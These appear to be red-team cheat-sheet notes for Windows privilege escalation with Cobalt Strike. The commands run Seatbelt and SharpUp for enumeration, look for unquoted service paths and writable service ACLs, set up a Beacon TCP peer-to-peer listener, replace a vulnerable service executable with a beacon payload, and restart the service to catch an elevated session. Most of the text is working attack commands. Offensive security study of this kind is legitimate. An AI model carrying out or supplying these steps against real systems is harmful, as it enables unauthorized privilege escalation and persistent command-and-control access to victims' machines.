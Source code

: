 ```
execute-assembly C:\Tools\SeatBelt\Seatbelt.exe -group=system
```

SharpUp - make sure to build it

```
execute-assembly C:\Tools\SharpUp\SharpUp.exe
```

Get user ID and global group membership info

```
getuid

run net user <USER> /domain
```

Get services

```
run sc query
```

look for unquoted service paths with a space between

```
run wmic service get name, pathname
```

get permissions to unquoted service path

```
powershell Get-Acl -Path "Path to Vulnerable Services" | fl
```

Looking for BUILTIN\User with WriteAccess

#### Create peer-to-peer listener

go to Cobalt Strike -> Listeners -> Add -> Beacon TCP -> Save

CD to vulnerable service and replace the service with payload

```
 upload C:\Payloads\beacon-tcp-svc.exe
 mv beacon-p2p-tcp-svc.exe <name of vuln exe>
```

#### Start vuln service and connect to it

Stop service and start it

```
 run sc stop <Service>
 run sc start <Service>
```

look for listening on payload port (4444)

```
run netstat -anp tcp 
```
